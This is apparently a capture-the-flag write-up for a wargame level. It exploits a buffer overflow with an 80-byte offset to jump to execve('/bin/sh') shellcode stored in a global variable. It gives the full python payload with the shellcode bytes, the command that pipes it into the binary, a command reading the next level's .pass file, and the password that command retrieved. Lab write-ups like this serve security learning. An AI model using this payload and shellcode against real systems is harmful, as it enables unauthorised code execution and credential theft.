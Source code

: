 checking functions, no syscall, it's shellcode time

info vars -> 0x0804a040  a_user_name

cat binary and find all non encoded shit to try for username, 
"dat_wil" works


use maxonchiks method to find the offset for buff overflow(https://projects.jason-rush.com/tools/buffer-overflow-eip-offset-string-generator/), 80

so the line be: "dat_wil" + (shellcode + "\n" + garbage to get to 80) + shellcode addr

shellcode addr = beginning of memory for vars, that being the beginning of "dat_will" + 7 => 0x0804a040 + 7

shellcode: http://shell-storm.org/shellcode/files/shellcode-827.php



checkity check:

python -c "print 'dat_wil' + '\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80' + '\n' + 'Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac' + '\x08\x04\xa0\x47'[::-1]" > /tmp/pepe

cat /tmp/pepe - | ./level01

cat /home/users/level02/.pass

PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
